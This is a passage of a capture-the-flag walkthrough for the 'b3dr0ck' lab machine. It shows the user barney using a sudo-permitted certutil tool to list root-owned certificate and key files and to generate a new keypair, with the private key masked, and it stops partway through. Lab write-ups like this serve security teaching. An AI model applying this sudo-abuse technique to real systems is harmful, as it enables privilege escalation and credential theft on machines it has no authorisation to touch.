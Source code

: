 Matching Defaults entries for barney on b3dr0ck:
    insults, env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User barney may run the following commands on b3dr0ck:
    (ALL : ALL) /usr/bin/certutil
</pre>
</li>
<li>Ok, so we can use sudo on&nbsp;<strong>certutil</strong>, let's check it out <br /><img src="/assets/img/check-it-out-steve-brule.gif" /></li>
<li>Try to run <strong>sudo certutil</strong> by itself to start with</li>
<li>
<pre>barney@b3dr0ck:~$ sudo certutil

Cert Tool Usage:
----------------

Show current certs:
  certutil ls

Generate new keypair:
  certutil [username] [fullname]
</pre>
</li>
<li>Ok cool, so this is some sort of tool to view and create keypair credentials</li>
<li>Let's try the <strong>sudo certutil ls</strong> first</li>
<li>
<pre>barney@b3dr0ck:~$ sudo certutil ls

Current Cert List: (/usr/share/abc/certs)
------------------
total 56
drwxrwxr-x 2 root root 4096 Apr 29 05:12 .
drwxrwxr-x 8 root root 4096 Apr 29 04:30 ..
-rw-r----- 1 root root  972 Apr 30 21:05 barney.certificate.pem
-rw-r----- 1 root root 1674 Apr 30 21:05 barney.clientKey.pem
-rw-r----- 1 root root  894 Apr 30 21:05 barney.csr.pem
-rw-r----- 1 root root 1678 Apr 30 21:05 barney.serviceKey.pem
-rw-r----- 1 root root  976 Apr 30 21:05 fred.certificate.pem
-rw-r----- 1 root root 1678 Apr 30 21:05 fred.clientKey.pem
-rw-r----- 1 root root  898 Apr 30 21:05 fred.csr.pem
-rw-r----- 1 root root 1678 Apr 30 21:05 fred.serviceKey.pem
</pre>
</li>
<li>Ok now we know where and how these keys/certs are managed</li>
<li>Let's try to create a new keypair!</li>
<li>
<pre>barney@b3dr0ck:~$ sudo certutil f11snipe "F11snipe FTW"
Generating credentials for user: f11snipe (F11snipe FTW)
Generated: clientKey for f11snipe: /usr/share/abc/certs/f11snipe.clientKey.pem
Generated: certificate for f11snipe: /usr/share/abc/certs/f11snipe.certificate.pem
-----BEGIN RSA PRIVATE KEY-----
****************************************************************
****************************************************************
****************************************************************
****************************************************************